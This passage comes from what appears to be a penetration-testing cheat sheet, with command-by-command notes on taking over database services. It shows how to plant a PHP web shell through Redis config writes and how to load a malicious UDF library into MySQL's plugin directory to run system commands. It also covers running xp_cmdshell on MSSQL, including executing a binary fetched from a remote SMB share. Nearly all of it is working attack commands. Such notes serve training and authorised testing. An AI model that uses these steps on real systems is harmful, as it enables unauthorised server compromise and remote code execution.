 	- cab
		- `lcab -r {dir} {file.cab}`
			- In kali
		- `expand {file.cab} -F:* {Extract path}`
			- Extract path must be absolute path like `C:\Windows\Temp`
- https://blog.ropnop.com/transferring-files-from-kali-to-windows/
## Server
### Redis
- Write shell / file
	- `redis-cli -h {ip} `
		- Connect
	- `config set dir "/var/www/html"`
		- Set dir
	- `config set dbfilename meow.php`
		- Set file name
	- `set x "\r\n\r\n<?php system($_GET[A]);?>\r\n\r\n"`
		- Write web shell
	- `save`
		- Save file
### MySQL
#### Exploit
- User-Defined Function (UDF) Dynamic Library
    - `SHOW VARIABLES LIKE 'plugin_dir';`
        - Check plugin dir
    - Write File Method (1)
        - `use mysql;`
        - `create table hack(line blob);`
        - `insert into hack values(load_file('/tmp/lib_sys_udf.so'));`
            - File From https://github.com/zinzloun/MySQL-UDF-PrivEsc (https://www.exploit-db.com/exploits/1518)
        - `select * from hack into dumpfile '/{plugin_dir}/lib_sys_udf.so';`
    - Write File Method (2)
        - `xxd -p -c 9999999 lib_sys_udf.so`
        - `SET @SHELL=0x{.....}`
        - `SHOW VARIABLES LIKE 'plugin_dir';`
        - `SELECT BINARY @SHELL INTO DUMPFILE '{PLUGIN_DIR}/meow.so';`
    - `create function do_system returns integer soname 'lib_sys_udf.so';`
    - `select do_system("{Bash script}");`
        - Not show return 
#### Logging
- Conf File
    - `/etc/my.cnf.d/mysql-server.cnf` (Centos)
    - `/etc/mysql/my.cnf` (Debian)
- Add 2 line
    - `general_log_file=/var/log/mysql/mysql_log.log`
    - `general_log=1`
- Restart services
    - `sudo systemctl restart mysqld`
- See Log
    - `tail -f /var/log/mysql/mysql_log.log`
### MSSQL
- Connect
	- `impacket-mssqlclient -p {port} {UserID}@{IP} -windows-auth`
	- Default port : 1433
- Shell
	- `exec xp_cmdshell '{Command}'`
	    - `exec xp_cmdshell '\\192.168.119.210\meow\s443.exe'`
	        - `exec` doesn't need escape character
            - `xp_cmdshell(net users)`
                - Can also work but can't `\`